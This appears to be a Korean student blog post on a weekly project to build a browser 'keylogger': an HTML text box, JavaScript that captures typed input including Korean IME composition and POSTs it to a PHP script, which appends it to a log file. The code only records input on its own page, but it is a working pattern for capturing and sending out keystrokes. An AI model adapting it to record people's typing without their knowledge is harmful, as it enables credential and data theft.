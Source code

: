 

layout: single
title:  "4주차 키로거 만들기"
categories: project
typora-root-url: ..\
author_profile: false

<br>

# <span style="background:#000000; color:#ffffff">1.키로거 만들기</span>

<br>

키로거란? 사용자가 작성하는 글을 기록하고 전송하는 것을 말합니다. 즉 사용자의 입력의 데이터를 가져오는 것입니다.

키로거를 만든 것을 보여드리면서 코드를 설명하겠습니다.

<img src="/images/2024-05-14-3/image-20240514033456490.png" alt="image-20240514033456490" style="display:flex; zoom: 50%; justify-content:left;" /><img src="/images/2024-05-14-3/image-20240514034539596.png" alt="image-20240514034539596" style="zoom:50%;justify-content:center; display:flex;" />

▶ 글을 작성하니, 작성한 글이 txt파일에 저장되는 모습!

## 1.1 keylog.html

<br>

저는  기본적으로 작성할 텍스트 박스를 만들었고, 텍스트의 내용을 밑에 표시하고 싶었기 때문에 pre를 작성해두었습니다.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>keylogger</title>
</head>
<body>
    <h1>keylogger</h1>
    <input type="text" id="input" placeholder="입력할 글자를 넣어주세요">
    <pre id="log"></pre>
</body>
<script src="keylogger.js"></script>
</html>
```



## 1.2 keylogger.js

<br>▶<span style='font-weight:bold; font-size:20px'>DOM으로 구성 및 변수지정</span>

```javascript
document.addEventListener('DOMContentLoaded', () => {
    const input = document.getElementById('input');
    const log = document.getElementById('log');
    let composing = false; // IME 입력 중인지 나타내는 플래그
    let buffer = ''; // 입력 데이터를 임시 저장하는 버퍼
    let timeoutId = null; // 디바운싱을 위한 타임아웃 ID
```



▶<span style='font-weight:bold; font-size:20px'>IME 입력으로 한글적기 및 밑에 텍스트 내용 표시하기</span>

```javascript
    input.addEventListener('compositionstart', () => {
        composing = true;
    });

    input.addEventListener('compositionend', (event) => {
        composing = false;
        buffer += event.data || '';
        log.textContent += event.data || '';
        sendData(buffer); // 버퍼에 저장된 텍스트를 서버로 전송
        buffer = ''; // 버퍼 초기화
    });

    input.addEventListener('input', (event) => {
        if (!composing) {
            if (event.inputType === "deleteContentBackward") {
                log.textContent = log.textContent.slice(0, -1); // 마지막 문자 삭제
            } else {
                log.textContent += event.data || ''; // 새로운 입력 데이터 추가
            }
            debounceSendData(log.textContent); // 디바운싱을 적용하여 서버에 전송
        }
    });

```



▶<span style='font-weight:bold; font-size:20px'>데이터 전송하기 및 서버 응답 상태 확인하기</span>

```javascript

    function debounceSendData(text) {
        clearTimeout(timeoutId); // 이전 디바운스 대기중인 타이머가 있다면 취소
        timeoutId = setTimeout(() => {
            sendData(text); // 설정된 딜레이 후에 데이터 전송
        }, 2000); // 딜레이 시간은 500ms
    }

    function sendData(text) {
        var data = new FormData();
        data.append("keys", text);

        var xhr = new XMLHttpRequest();
        xhr.open("POST", "keylog.php", true);
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded; charset=UTF-8');

        xhr.onload = function() {
            if (xhr.status === 200) {
                console.log('Data sent successfully:', xhr.responseText);
            } else {
                console.log('Failed to send data:', xhr.status);
            }
        };

        xhr.send(`keys=${encodeURIComponent(text)}`); // 데이터 인코딩하여 전송
    }
});

```



## 1.3 keylog.php

<br>

▶<span style='font-weight:bold; font-size:20px'>데이터 txt 파일로 보내기</span>

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $keys = $_POST['keys'] ?? '';
    file_put_contents("keylog.txt", $keys . PHP_EOL, FILE_APPEND | LOCK_EX);
}
```





